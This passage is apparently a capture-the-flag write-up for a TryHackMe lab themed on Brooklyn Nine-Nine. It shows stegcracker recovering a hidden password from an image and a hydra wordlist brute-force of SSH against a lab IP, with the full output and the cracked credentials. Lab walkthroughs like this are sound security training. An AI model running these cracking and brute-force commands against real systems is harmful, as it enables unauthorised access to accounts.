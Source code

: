 ```
cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
##steganography

Starting through my usual don't miss a trick list we eventually end up with a password!

1. file
1. strings
1. exiftool
1. binwalk
1. steghide
1. stegsolve
1. stegcracker

```shell
stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt 
StegCracker 2.0.8 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2020 - Luke Paris (Paradoxis)

Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: admin
Tried 20651 passwords
Your file has been written to: brooklyn99.jpg.out
admin
karti@kali-pt:/media/sf_CTF/tryhackme/nine-nine$ ls
brooklyn99.jpg  brooklyn99.jpg.out  nine-nine.md  nmap
karti@kali-pt:/media/sf_CTF/tryhackme/nine-nine$ cat brooklyn99.jpg.out 
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

## secondary summary

Going through our initial review, we now have a few usernames (assumptions), as well as a password.


## ssh
```shell
hydra -t 20 -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.220.170
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-14 19:20:40
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 20 tasks per 1 server, overall 20 tasks, 14344399 login tries (l:1/p:14344399), ~717220 tries per task
[DATA] attacking ssh://10.10.220.170:22/
[22][ssh] host: 10.10.220.170   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-14 19:20:42
```
So we now have Jake's and Holt's password for ssh. Let's logon and see what we can find.

